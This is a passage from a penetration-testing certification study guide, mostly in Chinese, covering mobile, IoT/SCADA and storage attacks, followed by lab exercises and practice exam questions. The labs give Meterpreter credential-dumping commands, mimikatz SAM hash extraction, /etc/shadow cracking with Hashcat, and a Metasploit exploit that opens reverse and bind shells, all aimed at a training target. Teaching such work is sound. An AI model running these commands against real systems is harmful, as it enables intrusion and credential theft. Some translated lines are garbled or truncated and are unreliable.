`Frida` is an injection tool that can be used to inject JavaScript code or other libraries into native applications for both mobile (Android and iOS) and other operating systems like Windows and macOS. Tools like `Frida` can be used to intercept and modify JavaScript responses in applications to bypass input requirements or even authentication processes, as well as for other tasks where injecting your own code or responses may be useful. It also supports multiple languages like Python, .NET, Swift, and C. For a quick introduction on how to use `Frida`, check out [`notsosecure.com/pentesting-android-apps-using-frida`](https://notsosecure.com/pentesting-android-apps-using-frida).


* `Objection` 是由 Frida 驱动，用于评估移动应用程序——它被描述为一种“运行时移动探索”工具。它使用 Frida 将运行时对象放入运行中的进程，允许你在移动设备或系统运行代码的任何沙箱或环境中执行代码。你可以在 [`book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/frida-tutorial/objection-tutorial`](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/frida-tutorial/objection-tutorial) 找到 Objection 使用教程以帮助你入门。需要注意的是，Objection 不提供越狱或 root 功能。因此，你能做什么受限于给定沙箱中的代码能做什么。

* `Android SDK tools` 用于为 Android 设备构建应用程序。这意味着，如果你需要为 Android 设备构建漏洞利用程序，你可能会使用来自 [`developer.android.com/studio`](https://developer.android.com/studio) 的 SDK。

* `Drozer` 是一个 Android 安全评估框架，内置了现有的漏洞利用程序，旨在帮助评估 Android 应用程序的安全态势。Drozer 网站还提供 Sieve，这是一个包含常见 Android 安全问题的应用程序，允许你使用测试应用程序学习如何测试 Android 安全性。你可以在 [`labs.mwrinfosecurity.com/tools/drozer`](https://labs.mwrinfosecurity.com/tools/drozer) 找到 Drozer。使用 Drozer 就像设置它、安装 `drozer` 代理并启动它，然后使用 Drozer 的模块测试应用程序的攻击面，最后根据你发现的攻击面使用各种模块测试应用程序一样简单。

* `APKX` 是各种 Java 反编译器和 DEX 转换器的封装，允许你从 Android 包中提取 Java 源代码。如果你想直接分析 APK 中的 Java 代码，APKX 提供了一种便捷的方法。你可以在 [`github.com/b-mueller/apkx`](https://github.com/b-mueller/apkx) 找到它。

* `APK Studio` 是专为逆向工程 Android 应用程序而设计的集成开发环境（IDE）。截至撰写本文时，APK Studio 自 2015 年以来未更新，但你可以在 [`github.com/vaibhavpandeyvpz/apkstudio`](https://github.com/vaibhavpandeyvpz/apkstudio) 找到它。

PenTest+ 考试目标不包括任何 iOS 移动应用程序渗透测试工具，但此类工具确实存在。事实上，OWASP 有一个名为 iGoat 的 iOS 应用程序渗透测试工具，可供下载，网址为 [`github.com/OWASP/igoat`](https://github.com/OWASP/igoat) 。与 OWASP 的 WebGoat 项目类似，iGoat 提供了关于应用程序漏洞的逐步教程，以及如何利用其解释的每个常见漏洞的指导。如果你正在学习如何攻击移动设备，从 iGoat 开始是一个不错的选择。

## 攻击 IoT、ICS、嵌入式系统和 SCADA 设备

攻击者已经知道，嵌入式系统和物联网（IoT）设备是访问受保护网络中其他元素的绝佳跳板。像 2013 年 Target 泄露事件这样的违规事件，该事件利用 HVAC 控制系统被攻破来针对销售点系统，已经显示攻击者使用这些系统来立足。作为渗透测试人员，你会想要考虑如何攻击 IoT、SCADA、ICS 和嵌入式系统，以及如何利用它们来获得进一步的访问权限。

当然，渗透测试人员有攻击者可能没有的特殊考虑。避免 *可用性问题*，例如防止可能给客户带来问题的运行中断或中断，可能是一个重要的考虑因素。专用设备可能还需要不同的攻击模式，因为它们可能运行相同的软件，或拥有强大的 CPU 或有用数量的可用存储，或者它们可能有其他限制其使用的限制。专用系统通常被放置在脆弱的环境中，作为生产线、环境、电力或监控系统的控制器，或者它们可能是其他业务需求的关键部分。这意味着在扫描、探测和攻击它们时，你必须采取额外的预防措施——或者你可能只需记录它们的存在以及观察到的任何潜在漏洞，然后与客户验证你的下一步措施。

PenTest+ 考试大纲针对 IoT、SCADA、ICS 和工业物联网（IIoT）设备的几个特定问题：

* `BLE`，即 Bluetooth Low Energy，攻击有多种形式。BLE 易受中间人攻击、凭证嗅探、通过 MAC 地址冒充进行的欺骗，以及针对设备配对的漏洞利用，以及拒绝服务攻击和干扰。许多设备依赖于不安全的配对过程，该过程使用双方都必须使用的简单数值，而许多设备只是将六个零作为其代码，允许任何其他设备在没有对远程设备进行实际验证的情况下与它们配对。作为渗透测试人员，你可能需要发现并识别 BLE 设备，然后使用你收集的关于它的数据来识别哪些攻击最有可能成功。

* `不安全的默认设置` 和 `硬编码配置` 都是渗透测试人员的机会。不更改默认用户名、密码和其他设置的组织，或者由于设备将它们硬编码（永久设置）而无法更改它们的组织，为获得设备访问权限的渗透测试人员创造了机会。漏洞扫描工具通常具有自动识别这些问题的能力，但你也应该努力识别设备，并在侦察活动中发现它们时研究它们是否具有默认凭据或已知缺陷。

* 使用不安全或过时的组件很常见，特别是在嵌入式设备的操作系统级别。IoT、ICS、SCADA 和其他特殊用途设备通常部署在更新它们可能很困难的地方或模式中。生产线或建筑环境系统的控制器可能多年没有更新。同时，制造商提供不频繁的更新（如果他们提供补丁和更新的话）也很常见。这意味着在探测这些设备时，你可能会遇到过时的固件和硬件的组合，而过时的软件、固件和硬件可以提供大量你可以利用的漏洞。

* 你需要考虑的最后一个领域是使用 `明文通信` 以及由此产生的 `数据泄露` 潜力。使用 HTTP 而不是 HTTPS、串行-over-IP 协议和其他未加密的数据传输选项仍然很常见，特别是在旧的 ICS、SCADA 和 IoT 设备中。加密需要处理器的开销，因此需要更多电力，因此设备可能会选择不太安全的选项。如果这些设备随后处于暴露的网络上，或者你可以访问设备正在使用的安全飞地，你可以捕获它们正在发送的数据。数据泄露可能通过其他方式发生，包括通过文件或日志泄露，但你从这些设备中遇到的大多数数据泄露将通过网络协议发生。

除了你需要了解的这些核心问题之外，PenTest+ 考试大纲还列出了 `监控控制和数据采集` (`SCADA`)、`工业控制系统` (`ICS`) 和 `工业物联网` (`IIoT`) 特定漏洞。


# ICS 和 SCADA 系统

ICS 是一个广义术语，用于描述控制和管理设备、系统、传感器以及工业流程其他元素的系统。SCADA 是多种 ICS 类型之一，但你经常会看到这两个术语被混用。ICS 通常包括操作技术——即 ICS 部署的终端监控和控制设备、用于本地设备管理的 PLC（可编程逻辑控制器）、人机界面、控制和诊断系统以及各种其他组件。

SCADA 系统用于自动化和监控工业流程和系统，最常与建筑管理、公用事业系统、交通控制系统及类似用途相关联。它们使用 SCADA 特定协议，如 ModBus、DNP3 和 BACnet（考试无需熟悉）。从渗透测试人员的角度来看，SCADA 环境渗透测试通常集中在 PLC 和远程终端单元（RTU）上，如 Figure 10.11 所示，这些设备从传感器和设备收集数据，以及网络连接并管理环境的控制系统和主站。如果你以前从未接触过 SCADA 系统，可以在 [`electrical-engineering-portal.com/scada-dcs-plc-rtu-smart-instrument`](https://electrical-engineering-portal.com/scada-dcs-plc-rtu-smart-instrument) 查看概述。


FIGURE 10.11 A simple SCADA environment design example

IIoT 是一个较新的概念，将物联网概念与工业控制和监控相结合。对大多数渗透测试人员来说，这并不改变在渗透测试中识别和利用 IoT 设备的整体过程——但这意味着你需要意识到你正在探测什么，以及它在组织中的用途可能是什么。与 ICS 和 SCADA 系统一样，导致 IIoT 设备故障或响应不当可能对组织的业务、建筑物或基础设施产生重大影响。

PenTest+ 考试指南提到的另一种特定类型的嵌入式系统是使用 *Intelligent Platform Management Interface (IPMI)*。这些接口内置于许多服务器和一些台式电脑中，或可添加到其中，旨在进行低级系统和硬件管理，特别是在系统的操作系统可能无法完全正常工作或可能发生硬件问题时。你可能熟悉它们作为 Dell 的 DRAC 或 HP 的 iLO（集成 Lights Out）或提供 IPMI 的类似产品名称。这些带外管理接口通常基于以太网，大多数组织在单独的安全 VLAN 上运行它们。如果你在可访问的网络上发现 IPMI 接口，或能够访问安全 VLAN，你可能能够通过 Web 界面或命令行管理界面获得对服务器或设备的低级访问权限。

那些没有充分利用或管理其 Lights Out 管理功能的组织，很可能忽略了更改其默认用户名和密码。Metasploit 内置了 IPMI 扫描器和利用工具，在遇到基于 IPMI 的工具时非常有用。

# Attacking Data Storage

获取数据是渗透测试人员的关键目标，原因有很多。数据通常是渗透测试的最终目标，在过程中获得的所有信息、账户和访问权限仅仅是达到这一目的的手段。同时，在过程中收集的数据在尝试横向移动或获取进一步访问权限时可能很有用。

PenTest+ 考试大纲考虑了多种攻击数据存储的方法，你需要熟悉。其中第一种是你已经习惯寻找的：存储设置和环境配置错误。这可能简单到默认用户名或空密码，或者 Amazon S3 存储桶配置了弱权限或公共权限。在这种情况下，你需要先探索存储系统或服务，然后检查它们以发现可以找到什么数据。

在渗透测试中搜索 AWS 存储桶可以简单到从 AWS 控制台执行命令：`aws s3 ls s3://$bucketname/ ‐‐region $region`。

数据存储攻击还可以涉及通过利用漏洞攻击底层软件或服务器。2021 年 4 月在 QNAP 网络附加存储（NAS）设备中宣布的零日漏洞提供了这种攻击的示例。该零日攻击利用了一对关键漏洞，允许未经身份验证的用户通过利用设备内置 Web 服务器上的远程代码执行漏洞来操纵数据并控制设备，并通过利用数字生活网络联盟（DLNA）服务将文件数据写入任何位置或执行任意命令。你可以在 [`threatpost.com/qnap-nas-devices-zero-day-attack/165165`](https://threatpost.com/qnap-nas-devices-zero-day-attack/165165) 阅读更多关于此漏洞利用的信息。

由于许多存储系统暴露在本地网络或互联网上，像这样的攻击可以远程执行。这也意味着你习惯用于攻击其他服务和服务器的其他利用技术也适用。你可以考虑通过错误消息和调试处理输出进行信息收集，利用缺乏用户输入清理来利用注入漏洞的漏洞，以及你从攻击 Web 应用程序和数据库服务器中熟悉的类似技术。事实上，PenTest+ 考试大纲特别指出，用于 SQL 注入的单引号方法是攻击数据存储系统时需要牢记的一种技术。

# Summary

云技术是渗透测试中越来越重要的组成部分。凭证收集技术可用于获取用户账户。从那里，你可以使用权限提升攻击和其他技术来完成账户接管活动。你也可以尝试从元数据服务或通过 API 获取信息，通常使用云提供商专门提供的软件开发工具包（SDK）以允许以编程方式访问其服务。侧信道攻击，即通过观察数据或环境变化而无法直接观察环境来收集信息，在某些云环境中也可能很有用。

进入云环境的另一种主要方式是利用配置错误的服务。尽管配置不当或过于宽松的身份和访问管理（IAM）是最常被利用的弱点之一，但联合配置问题、S3 等服务中的不安全对象存储，或容器化服务中的弱配置都可能允许你在云环境中立足。

由于可能造成的潜在问题，拒绝服务和资源耗尽攻击在渗透攻击中较少见，但作为渗透测试的一部分，它们也可能是需要或要求的。设计良好、可扩展且安全的云服务可以使传统的拒绝服务攻击和资源耗尽技术变得困难，甚至几乎不可能。因此，直接到源攻击，即识别服务背后的底层服务和系统并针对它们，可能对渗透测试人员很有用。

与其他环境一样，云特定工具也是渗透测试人员需要了解的内容。ScoutSuite 是一个多云审计工具，可供渗透测试人员使用，CloudBrute 是一个多云枚举工具，Pacu 是一个 AWS 利用框架，Cloud Custodian 旨在用作合规性和管理工具，但可以像 ScoutSuite 一样用于识别问题。


物联网（IoT）、ICS/SCADA、数据存储系统以及使用 IPMI 的管理接口等嵌入式系统，都会给渗透测试带来特殊的考量。它们可能更加脆弱，对流程或业务至关重要，从而引发可用性问题，并且可能需要特殊处理，以确保关键数据不会丢失或损坏。由于它们通常更难打补丁，可能没有定期更新，往往不进行安全通信，并且由于嵌入式默认设置而难以保护，因此它们也可能成为渗透测试人员有价值的目标。你还应该考虑它们提供的通信协议和连接选项，因为蓝牙低能耗（BLE）和其他低功耗协议通常未以安全方式实现。

移动设备可能比传统工作站更容易访问，渗透测试人员需要知道如何针对 Android 和 iOS 设备。许多当前攻击集中在应用程序缺陷以及操作系统漏洞上，例如数据不安全存储、密码和生物识别漏洞，以及底层操作系统、应用商店或运行在设备上的应用程序中的漏洞。对操作系统和应用程序进行逆向工程、使用沙箱分析代码和设备镜像，甚至虚拟化设备镜像以允许暴力攻击，这些都是渗透测试人员的可能选择。移动设备安全评估框架和应用程序安全测试工具可以帮助针对目标组织员工使用的移动设备，包括 Burp Suite、Drozer 等工具。

许多系统和服务托管在虚拟化或容器化环境中。渗透测试人员需要知道如何识别自己是否已攻破虚拟化或容器化的系统或服务。虽然从虚拟机或容器中逃逸是一个有吸引力的想法，但实际的逃逸方法不如其他形式的攻击那么常见。这可能意味着攻击虚拟机监控程序本身或存储库，以便在虚拟机运行之前对其进行攻破，而不是在运行时。无论你如何攻击，了解环境中存在虚拟系统和容器可以帮助你以其他方式找到并针对底层虚拟化基础设施。

渗透测试人员还需要知道如何通过 SSH、Netcat 和 Ncat 等工具创建远程连接，以及如何使用代理来隐藏其入站和出站流量。使用代理进行横向移动还可以为渗透测试人员提供访问权限，通过利用受攻破的系统在受保护网络中构建路径，从而绕过安全边界。

凭据在渗透测试过程中始终有用。获取用户、管理和服务账户将允许你尝试访问系统和设备，而从甚至非特权账户提升权限是渗透测试过程中的常见技术。你应该知道在常见操作系统中在哪里查找凭据，如何获取它们，以及如何使用 Hashcat、Medusa、CeWL、John the Ripper、Mimikatz、Patator、DirBuster 和 w3af 等工具破解它们。

## 考试要点

### 了解云技术攻击和工具
针对云技术的攻击包括凭据收集、权限提升和账户接管。错误配置是获取账户、系统、服务或数据访问权限的最常见方式之一。错误配置的身份和访问管理是一个关键的利用缺陷，但对象存储、容器化技术中的错误配置以及联合错误配置也可以作为渗透测试的一部分被利用。你可以通过元数据服务攻击和漏洞利用以及旁信道攻击获取数据，并可以进行拒绝服务攻击，包括使用直接到源攻击技术绕过扩展和拒绝服务保护。最后，你需要考虑云软件开发工具包（SDK），它们通过 API 向云服务提供直接接口，允许你编写脚本和程序来帮助你的渗透测试成功。

### 解释存储、管理、IoT 和 SCADA/ICS 漏洞及其在渗透测试中的用途
存储设备和服务等基础设施系统可能包含大量有用的信息。暴露数据的错误配置是访问存储系统的关键方式，但攻破存储服务器和控制器或使用用户凭据获取访问权限也是常见的入侵方式。管理接口用于控制服务器硬件，并可以对使用它们的系统提供重大控制权。尽管这些接口通常放置在隔离的 VLAN 上，但渗透测试人员仍可能能够获得访问权限或找到未得到妥善保护的管理接口。物联网设备通常缺乏补丁和安全性，可能为渗透测试人员提供可行的目标，这些目标可以提供对网络或信息的访问，供其利用。最后，工业控制系统（ICS）、SCADA 和工业物联网设备用于管理工厂、公用事业以及广泛的其他工业设备。由于如果它们被中断，可能会对业务流程和其他基础设施造成潜在危害，因此在测试时需要特别小心。

### 解释移动设备攻击、漏洞和工具
了解移动设备攻击，包括对应用程序和移动操作系统进行逆向工程。解释什么是沙箱分析以及何时使用它。利用垃圾邮件技术作为移动设备攻击的一部分，以获取凭据或进行社会工程攻击。描述移动设备和应用程序中的漏洞，包括使用不安全存储、针对身份验证和授权的攻击（如生物识别集成）、密码漏洞以及过于宽泛的权限。利用已知易受攻击组件（如依赖项或由于操作系统碎片化导致的补丁问题）中的缺陷。解释 Burp Suite、Drozer、MobSF、Postman、Ettercap、Frida 和 Objection、Android SDK 工具、APKX 和 APK Studio 等工具的基本功能和用途。

### 使用常见技术允许远程访问
了解允许通过 SSH、Netcat 和 Ncat 进行远程访问的常见命令和工具。解释为什么、何时以及如何使用代理和 `proxychains` 来隐藏攻击流量，并允许通过受攻破的系统在安全网络内进行横向移动。

### 了解虚拟机和容器漏洞利用
解释虚拟机和容器概念及其基本区别。了解虚拟机和容器逃逸技术的概念。列出在大多数渗透测试中不太可能提供 VM 逃逸漏洞利用的原因。描述容器逃逸漏洞利用和场景。

### 执行凭据攻击
使用离线凭据破解工具，并了解每种工具的差异、基本功能和优势。创建单词列表和字典，并解释它们如何帮助暴力破解和破解活动。熟悉 Hashcat、Medusa、Hydra、CeWL、John the Ripper、Cain、Mimikatz、Patator、DirBuster 和 w3af 的用途和目的。

## 实验练习

### 活动 10.1：转储和破解 Windows SAM 及其他凭据

转储 Windows SAM 是渗透测试人员在获得系统访问权限后最常执行的任务之一。在此练习中，你将访问 Windows 系统，然后获取 Windows SAM 的副本。

1. 使用你在其他实验中关于 Metasploitable 3 Windows 目标系统所获得的知识，利用现有易受攻击服务之一并创建基于 Meterpreter 的反向 shell。


## 2. 既然你已经可以访问系统，也可以收集其他凭据。使用你的 Meterpreter 会话，执行以下命令并记录你的发现。

1. `/post/windows/gather/lsa_secrets`

2. `/post/windows/manage/wdi_digest caching` 要确保 WDigest 现在包含缓存的凭据，你应该登录并退出目标系统。

3. `creds_wdigest`

## 3. 使用你的 Meterpreter shell 复制 SAM：

1. 检查你的用户 ID：

```
getuid
```

2. 如果你还不是 `NT AUTHORITY\SYSTEM`，则获取系统凭据：

```
getsystem
```

3. 再次检查你的用户 ID：

```
getuid
```

4. 转储 SAM：

```
mimikatz_command -f samdump::hashes
```

5. 复制哈希值，如果你愿意，可以在下一个活动中将它们提供给 Hashcat！

## Activity 10.2: 使用 Hashcat 破解密码

在这个练习中，你将使用 Hashcat，即内置于 Kali Linux 中的 GPU 密码破解实用程序，来破解一组哈希密码。

1. 启动你的 Kali Linux 虚拟机。

2. 下载一组哈希值。你可以在多种地方找到哈希值：

   * 你正在使用的 Kali 系统。
   * DefCon 2012 KoreLogic 挑战是一个很好的起点：[`contest-2012.korelogic.com`](http://contest-2012.korelogic.com)。
   * [`haveibeenpwned.com/Passwords`](https://haveibeenpwned.com/Passwords) 上的 Pwned Passwords 列表非常庞大，但如果你想要更多练习，它提供了一个巨大的样本集供你使用。

   对于这个练习，我们将使用 Kali 系统自己的密码文件。一旦你完成了这个基本练习，你可能希望继续进行更复杂的破解工作，包括那些你可能无法立即知道所使用哈希方法的情况。

   捕获 Kali Linux `/etc/shadow` 文件。由于你以 root 身份登录，这很简单。如果你以非 root 用户身份登录系统，你将需要获取管理权限才能执行此操作。幸运的是，捕获 `/etc/shadow` 很容易；只需将 `/etc/shadow` 复制到你想要的任何名称的文件中！

   ```
   cp /etc/shadow kali_hash.txt
   ```

3. 在 Linux 系统上，你可以通过查看 `/etc/login.defs` 中的设置来检查正在使用的哈希类型。这样做并搜索 `ENCRYPT_METHOD` 将显示它设置为 SHA512。

4. 接下来，你需要清理哈希文件以删除不必要的信息，如用户名和账户策略设置。你可以使用 `vi` 编辑掉除哈希以外的所有内容。例如，root 显示为：

   ```
   root:$6$uPdhX/Zf$Kp.rcb4AWwtx0EJq235tzthWXdIEoJnhZjOHbil3od1AyM
   f3t8Yi6dAPlhbHVG9SLx5VSIPrXTZB8ywpoOJgi.:17564:0:99999:7:::.
   ```

   你应该将其修剪为仅包含哈希：

   ```
   $6$uPdhX/Zf$Kp.rcb4AWwtx0EJq235tzthWXdIEoJnhZjOHbil3od1AyMf3t8Y
   i6dAPlhbHVG9SLx5VSIPrXTZB8ywpoOJgi
   ```

   你几乎准备好使用 Hashcat 了，但你需要提取包含在 Kali 中的 rockyou 单词列表。它位于 `/usr/share/wordlists/rockyou.txt.gz`。

   你会注意到它是 gzipped 的，这意味着你需要在使用前将其解压缩。你可以通过将文件复制到你选择的位置，然后运行 `gunzip rockyou.txt.gz` 来完成。确保你记住将其解压缩到了哪里！

5. 现在针对你的文件运行 Hashcat。在这个示例中，我们将使用包含在 Kali 中的 rockyou 单词列表，但如果你为要针对的组织构建了一个单词列表，你可以选择使用不同的单词列表。在这个示例中，`‐m` 设置哈希类型，即 SHA‐512；`‐a O` 将攻击设置为字典攻击；`‐o` 设置输出文件；`kali_hash.txt` 是输入文件；结果如下所示：

   ```
   hashcat -m 1800 -a 0 -o cracked_hashes.txt kali_hash.txt /home/
   ```

6. 你已经知道你的 Kali 系统上 root 的密码，所以看到 toor 不会感到惊讶！现在获取另一个密码文件或列出的链接中的哈希列表之一，并试一试！

## Activity 10.3: 设置反向 Shell 和绑定 Shell

在这个练习中，你将使用 Metasploit 设置一个反向 Shell 和一个绑定 Shell。这个练习可以使用 Metasploitable Windows 主机来完成。为了准备这个练习，启动你的 Kali Linux 系统和你的 Windows Metasploitable 主机，并确保你可以从 Kali 系统连接到 Windows 主机。

1. 确定你想要在 Metasploitable 系统上攻击的漏洞。你可以使用之前记录的漏洞，也可以运行新的漏洞扫描来识别易受攻击的服务。

2. 启动 Metasploit 并选择你想要使用的漏洞。在这个示例中，我们将使用之前识别的 ManageEngine 漏洞，但如果你想探索其他选项，你可以选择另一个漏洞。

3. 选择 ManageEngine 漏洞利用：

   ```
   use exploit/windows/http/manageengine_connectionid_write
   ```

4. 设置远程主机和本地主机：

   ```
   set RHOST [remote system IP]
   set LHOST [local system IP]
   ```

5. 设置远程端口：

   ```
   Set RPORT 8022
   ```

6. 设置负载：

   ```
   Set payload windows/meterpreter/reverse_tcp
   ```

7. 使用 `exploit` 命令利用 Windows 系统。你现在应该在 Metasploit 窗口中看到一个打开的 Meterpreter 会话。

8. 重复此过程，使用 Windows shell `bind tcp` 负载：`payload/windows/shell_bind_tcp.`

   你需要探索此模块的选项才能成功连接到绑定 Shell——确保你完整地阅读它们！

## 复习问题

你可以在附录中找到答案。

1. Scott 想要爬取他的渗透测试目标网站，然后使用他恢复的数据构建一个单词列表，以帮助他的密码破解工作。他应该使用以下哪个工具？

   1. DirBuster
   2. CeWL
   3. OLLY
   4. Grep‐o‐matic

2. Michelle 想要攻击虚拟机的底层虚拟化程序。哪种类型的攻击最有可能成功？

   1. 容器逃逸
   2. 破坏管理界面
   3. 虚拟化程序 DoS
   4. VM 逃逸

3. Jeff 识别出其目标组织内容分发网络（CDN）配置中包含的 IP 地址。他知道该服务器的内容由 CDN 复制，如果他能够对该主机进行拒绝服务攻击，他将能够使其目标的 Web 存在瘫痪。Jeff 正在准备进行哪种类型的攻击？

   1. 旁路通道攻击
   2. 直接到源攻击
   3. 联合配置错误攻击
   4. 元数据服务攻击

4. Claire 知道她的目标组织使用大量 IoT 设备，并且她可能需要使用其中一个或多个作为渗透测试的跳板点。在涉及 IoT 设备的渗透测试中，以下哪项不是常见的关注点？

   1. 对可用性的影响
   2. 脆弱的环境
   3. 数据泄露
   4. 数据损坏

5. Susan 想要使用 Web 应用程序漏洞扫描器来帮助映射组织的 Web 存在并识别现有漏洞。以下哪个工具最适合她的需求？

   1. Paros
   2. CUSpider
   3. Patator
   4. w3af

6. Madhuri 发现她正在进行渗透测试的组织广泛使用工业控制系统来管理制造工厂。以下哪个组件最不可能对她的常规渗透测试工具（如 `Nmap` 和 `Metasploit`）做出响应？

   1. RTUs
   2. 现场设备
   3. PLCs
   4. 主站


7. Ben 想要针对由云服务提供商托管的容器化服务进行渗透测试。以下哪个目标通常不属于针对容器化环境的渗透测试范围？

1. 应用程序
2. 容器使用的 API
3. 容器使用的数据库
4. 底层容器化服务

8. Jocelyn 想要针对其渗透测试目标进行资源耗尽攻击，该目标使用利用内容分发网络的自动扩展服务架构。哪种技术最有可能帮助她成功？

1. BLE 攻击
2. 直接到源攻击
3. IPMI 攻击
4. VM 逃逸攻击

9. Isabelle 想要获取云基础设施即服务环境的访问权限。以下哪项不是获取此类访问权限的常见渗透测试技术？

1. 通过公共代码仓库获取意外暴露的密钥。
2. 对收集到的需要双重身份验证的凭据使用暴力破解工具。
3. 通过配置错误的对象存储获取意外暴露的密钥。
4. 探测服务或系统分配不当的权限。

使用以下情景回答第 10-12 题。Charleen 被指派负责大型客户组织中涉及移动设备的渗透测试组件。她获得了一台标准企业设备进行测试，该设备使用组织发放给员工的设备的基础配置。作为团队的一员，您被要求就渗透测试流程提供意见。根据您对移动设备攻击、漏洞和分析工具的知识，回答以下每个问题。

10. Charleen 想要使用手机的克隆镜像，看看是否可以使用暴力破解密码技术访问它。如果设备设置为“10 次密码尝试后擦除”，以下哪种技术可以让她在不触发自动擦除的情况下做到这一点？

1. 逆向工程
2. 容器化
3. 沙箱分析
4. 彩虹表

11. Charleen 确定她正在测试的组织为其 Web 应用程序使用证书固定。哪种技术最有可能帮助她克服这一问题，以便她能够进行中间人攻击？

1. 社会工程学
2. 逆向工程
3. 利用对象存储安全中的缺陷
4. 数据外泄

12. Charleen 想要对她拥有的设备上目标安装的移动应用程序进行静态代码分析。她应该从以下哪个工具中选择？

1. Objection
2. MobSF
3. Frida
4. Burp Suite

13. Alice 正在对组织的 AWS 基础设施进行渗透测试。如果她想要利用 AWS，应该从以下列表中选择哪个工具？

1. Pacu
2. Cloud Custodian
3. CloudBrute
4. BashAWS

14. 哪种类型的攻击专注于访问共享云环境中的底层硬件，以获取在其上运行的其他虚拟化系统的信息？

1. 直接到源攻击
2. 水坑攻击
3. 旁信道攻击
4. 对象存储攻击

15. Isaac 想要测试其目标组织的不安全 S3 存储桶。他可以使用什么过程来测试此类不安全配置？

1. 使用 Web 浏览器访问存储桶的 URL。
2. 使用 APKX 自动按名称验证已知存储桶。
3. 使用模糊测试工具生成存储桶名称并使用模糊测试工具的测试功能对其进行测试。
4. 进行直接到源攻击以查找原始存储桶源 URL。

16. Jocelyn 想要针对组织进行凭据收集攻击。她最可能采用哪种技术来完成此次攻击？

1. 漏洞扫描
2. 捕获同一物理主机上其他系统的数据
3. 发送钓鱼邮件
4. 使用 SDK 访问服务配置数据

17. Simone 被要求检查目标组织服务器上的 IPMI 接口。她最可能在哪里找到 IPMI 接口进行探测？

1. 组织的 DMZ 中
2. 私有数据中心 VLAN 中
3. 组织的工作站 VLAN 中
4. 组织的 Wi-Fi 网络上

18. Selah 想要针对目标之一提供的 SSH 服务进行暴力破解攻击。以下哪个工具不是设计用于暴力破解此类服务的？

1. Patator
2. Hydra
3. Medusa
4. Minotaur

19. 在攻破远程主机后，Cameron 使用 SSH 从他的渗透测试工作站连接到端口 4444。他设置了哪种类型的远程 shell？

1. 反向 shell
2. root shell
3. 绑定 shell
4. 盲 shell

20. Jim 想要破解他在渗透测试中恢复的密码文件中的哈希值。以下哪种方法通常最快？

1. John the Ripper
2. Rainbow Road
3. Hashcat
4. CeWL

WileyPRE

# 第 11 章

报告与沟通

渗透测试的目的是什么？如果你回顾 第 1 章，“渗透测试”，你会找到一个简洁的定义，描述组织如何聘请白帽黑客来评估其安全防御。该章节中有一句话尤其重要。它指出，渗透测试是“组织获得其安全漏洞完整图景的最有效方式”。

在你完成 第 1 章 后，你阅读了另外 10 个章节，这些章节帮助你了解如何进行渗透测试。你学习了渗透测试流程、渗透测试人员使用的工具和技术，以及测试人员寻求利用的漏洞。这些概念非常重要，因为它们为测试人员提供了开发组织安全漏洞图景所需的工具。但是，只有当渗透测试人员能够有效地向管理层和技术人员传达测试结果时，这幅图景才对组织有用。在本章中，我们将注意力转向渗透测试的这一关键最终阶段：报告和传达我们的结果。

## 沟通的重要性

沟通是渗透测试的生命线。在测试的所有阶段建立和保持开放的沟通渠道，有助于渗透测试人员确保他们遵守交接规则的范围，满足客户期望，并保持对客户业务背景的情境意识。例如，如果客户遇到业务意外激增，渗透测试人员应了解该活动，因为他们可能需要调整测试时间或参数，以便在测试和业务活动之间进行解冲突。


开放的沟通渠道也有助于避免和/或减轻渗透测试过程中可能出现的任何问题。如果测试开始干扰业务运营，客户和测试团队可以共同努力缓和局势，使测试在完成目标的同时尽量减少对运营的影响。沟通渠道还可以为团队提供一种方式，通过从内部和外部专家处获取有关系统和应用程序配置及使用的额外信息，来识别调查结果是否为误报。这些信息随后可能有助于确定调查结果是否正确，或者它们是否代表误报。同样，如果测试人员识别出正在进行的攻击或过去攻击的证据，他们可以使用沟通渠道报告可能的犯罪活动。

### 定义沟通路径

渗透测试人员应在接触的规划阶段明确定义其沟通路径。组织中的技术人员对中期结果感到好奇是很自然的，尤其是如果他们负责管理测试范围内的系统和应用程序。当沟通路径预先定义后，这为测试人员提供了一个简单的答案来回应信息请求：“我们的合同要求我们在向管理层发布最终报告之前保密结果，除非在非常特定的情况下。”

此沟通路径应包括在不同情况下将使用的联系人：

*   `primary contact`，负责渗透测试的日常管理

*   `technical contact`，可以处理测试过程中出现的任何技术问题或疑问

*   `emergency contact`，例如 24 小时安全运营中心（SOC），可在紧急情况下使用

除了沟通结果之外，渗透测试人员还应与客户建立定期的沟通节奏，以提供定期状态更新。实现这一点的常见方法是与关键利益相关者设立定期会议，渗透测试人员和客户在会议上讨论未决问题并提供测试进度的更新。这些会议的频率可能因接触的长度而异。例如，如果接触计划仅持续一两周，团队可能会召开每日早晨站会，简要讨论进度和问题。如果接触将持续一个月或更长时间，这些会议可能每周只举行一次，并设置其他沟通路径来处理会议之间可能出现的战术问题。

### 沟通触发点

除了明确定义渗透测试人员与其客户之间的沟通路径之外，测试的规划阶段还应包括明确列出的沟通触发点列表。这些是值得立即向管理层沟通的情况，因为它们可能发生在定期沟通之前。以下列表包括常见的渗透测试沟通触发点：

*   `Completion of a Testing Stage` 渗透测试工作说明书应包括具体的里程碑，以指示一个测试阶段的完成并标志着下一阶段的开始。测试阶段的完成应作为向管理层传递定期状态更新的触发点。

*   `Discovery of a Critical Finding` 如果渗透测试发现客户环境安全性存在关键问题，测试人员不应等待最终报告的交付才向管理层传达此问题。让关键漏洞得不到解决可能会使组织面临不可接受的风险水平并导致被攻破。发现并验证关键问题存在的渗透测试人员应遵循工作说明书中概述的程序，立即通知管理层该问题，即使此通知会降低测试人员在测试中能够实现的渗透程度。

*   `Discovery of Indicators of Prior Compromise` 渗透测试人员遵循可能也吸引现实世界攻击者的活动路径。这使他们处于可能发现真实攻击者留下的证据的境地，这些攻击者攻破了系统。当渗透测试人员发现正在进行或过去的攻击指标时，他们应立即通知管理层，并建议组织启动其网络安全事件响应流程。

在几乎所有情况下，渗透测试人员在完成测试阶段、识别关键调查结果或发现现实世界攻击指标时，都应与管理层沟通。工作说明书还可能包括基于渗透测试独特情况的其他沟通触发点。

### 目标重新优先级排序

军事规划者中有一句常见的说法：“没有任何计划能在与敌人首次接触后幸存。”在战争领域，这意味着战场的动态情况通常需要对可能花费数年时间制定的计划进行快速调整。渗透测试世界中的概念也是如此。随着测试人员开展工作，他们可能会发现导致他们想要重新排序测试目标，并可能转向新的、不可预见方向的信息。

